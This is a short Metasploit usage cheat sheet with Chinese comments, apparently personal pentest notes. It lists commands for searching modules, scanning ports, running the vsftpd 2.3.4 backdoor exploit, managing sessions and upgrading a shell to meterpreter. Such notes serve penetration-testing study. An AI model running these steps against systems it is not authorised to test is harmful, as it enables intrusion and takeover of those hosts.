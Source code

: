 Auxiliaries -> Exploits -> Payloads 

use -> options -> set -> exploit/exploit -j

meterpreter -> route -> socks

```bash
# 搜索
search -h
search ms17_010
search type:post
search cve:2009 type:exploit
search cve:2011 platform:linux

# 使用模块
use exploit/multi/handler

# 查看模块详细信息
info
info 0
info exploit/multi/handler

# 使用主机搜索的结果可以联动设置
use auxiliary/scanner/portscan/tcp
hosts -c address -R
run

# 通过搜索的模块进行利用
use exploit/unix/ftp/vsftpd_234_backdoor
# 联动设置RHOST或手动set rhost=x
services -p 21 -R
exploit -j

# 查看获取的会话列表
sessions -l
# 进入到会话
sessions -i 2
# 执行命令
sessions -c ls 2

# 获取到的会话可能是个shell或meterpreter
# shell转换为meterpreter
use post/multi/manage/shell_to_meterpreter
options
set session 2
exploit
# 查看会话列表会发现多了meterpreter会话
sessions -l

# 查看我们获取过的漏洞情况
vulns
vulns -o vulns-1.csv
```
